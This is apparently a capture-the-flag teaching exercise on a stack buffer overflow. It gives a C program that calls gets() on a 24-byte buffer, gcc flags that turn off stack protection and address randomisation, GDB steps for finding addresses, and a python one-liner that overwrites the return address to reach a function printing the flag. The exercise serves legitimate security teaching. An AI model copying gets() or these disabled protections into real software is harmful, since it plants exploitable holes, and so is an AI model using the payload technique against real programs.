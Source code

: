 # Challenge: Unlock the Flag (Overflow Exercise)

## Description

You are given the following vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

void you_win() {
    printf("Congratulations! Here is your flag: FLAG{gdb_master}\n");
}

void vuln() {
    char name[24];
    printf("Enter your name: ");
    gets(name);
    printf("Nice to meet you, %s\n", name);
}

int main() {
    vuln();
    return 0;
}
```

---

## 🛠Compilation

Compile the program with the following options to disable protections and include debugging information:

```bash
gcc -g -fno-stack-protector -z execstack -no-pie unlock_flag.c -o unlock_flag
```

| Option | Purpose |
|--------|---------|
| `-g` | Include debug symbols for GDB |
| `-fno-stack-protector` | Disable stack canary (overflow protection) |
| `-z execstack` | Allow execution from the stack (optional for this case) |
| `-no-pie` | Disable address randomization (fixed function addresses) |
| `-o unlock_flag` | Output executable file name |

---

## Debugging with GDB

Launch the debugger:

```bash
gdb ./unlock_flag
```

### Inside GDB:

| Command | Description |
|---------|-------------|
| `break vuln` | Set a breakpoint at the start of `vuln()` |
| `run` | Start the program and stop at the breakpoint |
| `print you_win` | Print the address of the function `you_win()` |
| `info frame` | Show stack frame info (including return address location) |
| `print &name` | Show buffer start address |
| `x/20xb $rsp` | Examine 20 bytes at the current stack pointer |
| `quit` | Exit GDB |

---

## Exploit the Buffer Overflow

- The buffer `name[24]` is followed by 8 bytes for the saved base pointer.
- The return address is located at **offset 32**.
- Use the address of `you_win()` (in little endian format) to overwrite the return address.

Example:

```bash
python3 -c "print('A'*32 + '\x86\x11\x40\x00\x00\x00\x00\x00')" | ./unlock_flag
```

> Replace `\x86\x11\x40...` with the actual address found using GDB.

---

## Little Endian Reminder

To convert a 64-bit address (e.g. `0x401186`) into little endian format:

```
0x401186 → \x86\x11\x40\x00\x00\x00\x00\x00
```

The least significant byte comes first.

---

## Expected Output

```
Enter your name: Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Congratulations! Here is your flag: FLAG{gdb_master}
Segmentation fault (core dumped)
```

The segmentation fault is expected after the function finishes, as there is no valid return address.

---

Remember: precision matters in memory!

